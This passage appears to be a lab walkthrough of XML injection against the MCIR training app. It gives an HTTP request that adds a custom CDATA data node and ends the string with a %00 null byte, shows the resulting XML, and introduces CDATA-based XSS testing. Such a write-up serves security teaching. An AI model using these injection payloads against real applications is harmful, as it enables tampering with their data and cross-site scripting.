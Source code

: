 ```xml
```

![](https://i.ibb.co/MkZJpTD/Screenshot-2020-02-04-at-12-15-14-AM.png)

Our task is to inject ```<data>``` node with our custom value. so our payload will be the following
	
```
GET /level_2/MCIR/xmlmao/xmlinjection.php?inject_string=Hello"></hooray><data><![CDATA[@_RaviRamesh]]></data></xmlfile>%00&query_results=all_rows&show_query=on&location=attribute&error_level=verbose&submit=Inject%21 HTTP/1.1
Host: 1337.ns
Content-Length: 0
```
**Resulting XML:**
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xmlfile [
<!ENTITY author "Inject4" > ]>
<xmlfile>
<hooray attrib="Hello"></hooray><data><![CDATA[@_RaviRamesh]]></data></xmlfile>
"> 
<ilovepie>Inject1</ilovepie>
</hooray>
<data>
<![CDATA[Inject3]]>
</data>
</xmlfile>
```
![](https://i.ibb.co/Q9d3RcZ/Screenshot-2020-02-04-at-12-10-56-AM.png)

In this example we have inject our ```<data>``` node with our custom string and we have completed with NULL charactor.
C-based languages use the NULL byte as a string terminator and will stop reading any string given to it when reaching a null byte. Since libxml is written in a C-based language, the XML data given to it by our PHP script (which actually reads the whole string) will be truncated if a null byte is present. The URL-encoded version of a null byte is ```"%00"```.

Another type of XML injection is where CDATA elements are used to insert malicious content. One example of this is where XML message payloads that contain a CDATA field can be used to inject illegal characters/content that are ignored by the XML parser.


#### 2.1.1 XSS through XML
**CDATA section delimiters: ```<![CDATA[ / ]]>```**

CDATA sections are used to escape blocks of text containing characters which would otherwise be recognized as markup. In other words, characters enclosed in a CDATA section are not parsed by an XML parser.

If you want to test parameter value as <> character, XML parser will not accept.
  
```xml
<username><![CDATA[<>]]></username>
```
